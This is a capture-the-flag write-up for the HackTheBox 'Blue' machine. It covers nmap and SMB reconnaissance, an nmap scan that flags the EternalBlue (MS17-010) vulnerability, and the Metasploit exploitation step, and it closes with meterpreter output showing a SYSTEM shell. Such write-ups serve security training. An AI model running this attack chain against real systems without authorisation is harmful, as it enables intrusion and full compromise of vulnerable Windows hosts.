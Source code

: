 ```yaml
---
title: "Blue - Writeup"
classes: single
ribbon: LightBlue
categories:
  - writeup
tags:
  - Blue
  - writeups
  - pentest
  - writeup
  - oscp
  - shell
  - exploit
  - htb
  - hackthebox
  - machine
  - easy
  - windows
toc: true
hide_title: true
excerpt: ""
---
```


## Blue
![](https://kar0nx.github.io/assets/images/writeup/52e077ae40899ab8b024afd51cb29b1c.webp)

## Reconnaissance

IP: 10.10.10.40
## NMAP

```
nmap -T4 -p- -A 10.10.10.40
```

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-19 05:31 EST
Stats: 0:01:16 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 33.33% done; ETC: 05:33 (0:00:52 remaining)
Nmap scan report for 10.10.10.40
Host is up (0.031s latency).
Not shown: 65526 closed tcp ports (reset)
PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49156/tcp open  msrpc        Microsoft Windows RPC
49157/tcp open  msrpc        Microsoft Windows RPC
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94SVN%E=4%D=2/19%OT=135%CT=1%CU=34202%PV=Y%DS=2%DC=T%G=Y%TM=67B
OS:5B389%P=x86_64-pc-linux-gnu)SEQ(SP=100%GCD=1%ISR=109%TI=I%CI=I%II=I%SS=S
OS:%TS=7)OPS(O1=M53CNW8ST11%O2=M53CNW8ST11%O3=M53CNW8NNT11%O4=M53CNW8ST11%O
OS:5=M53CNW8ST11%O6=M53CST11)WIN(W1=2000%W2=2000%W3=2000%W4=2000%W5=2000%W6
OS:=2000)ECN(R=Y%DF=Y%T=80%W=2000%O=M53CNW8NNS%CC=N%Q=)T1(R=Y%DF=Y%T=80%S=O
OS:%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=80%W=0%S=A%A=O%F=R%O=%RD=
OS:0%Q=)T5(R=Y%DF=Y%T=80%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=80%W=0%
OS:S=A%A=O%F=R%O=%RD=0%Q=)T7(R=N)U1(R=Y%DF=N%T=80%IPL=164%UN=0%RIPL=G%RID=G
OS:%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=80%CD=Z)

Network Distance: 2 hops
Service Info: Host: HARIS-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2025-02-19T10:33:37
|_  start_date: 2025-02-18T14:33:28
|_clock-skew: mean: 0s, deviation: 1s, median: -1s
| smb-os-discovery: 
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: haris-PC
|   NetBIOS computer name: HARIS-PC\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2025-02-19T10:33:38+00:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2:1:0: 
|_    Message signing enabled but not required

TRACEROUTE (using port 143/tcp)
HOP RTT      ADDRESS
1   30.96 ms 10.10.14.1
2   31.32 ms 10.10.10.40

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 130.05 seconds
```

Nmap scan shows that there is 3 open ports 135 - RPC, 139 - NetBios and 445 - SMB

## SMB

Let's check for shares on smb port 445:
```
smbclient -L ////10.10.10.40//Users
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250219114006.png)

```
smbclient //10.10.10.40/Users 
```

after searching available folders I don't find anything useful
Let's check for vulns, in this example we will use nmap script

```
nmap -p 445 -script vuln 10.10.10.40
```

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-19 05:44 EST
Nmap scan report for 10.10.10.40
Host is up (0.031s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds

Host script results:
|_smb-vuln-ms10-061: NT_STATUS_OBJECT_NAME_NOT_FOUND
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|_      https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|_smb-vuln-ms10-054: false

Nmap done: 1 IP address (1 host up) scanned in 24.90 seconds

```

We can spot that machine is vulnerable to MS17-010 Eternal Blue.
## Gaining Access

https://www.rapid7.com/db/modules/exploit/windows/smb/ms17_010_eternalblue/
This is pretty straight forward.

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250219115247.png)

```
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > shell
Process 1588 created.
Channel 1 created.
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Users>whoami
whoami
nt authority\system

```

Now we can grab the flags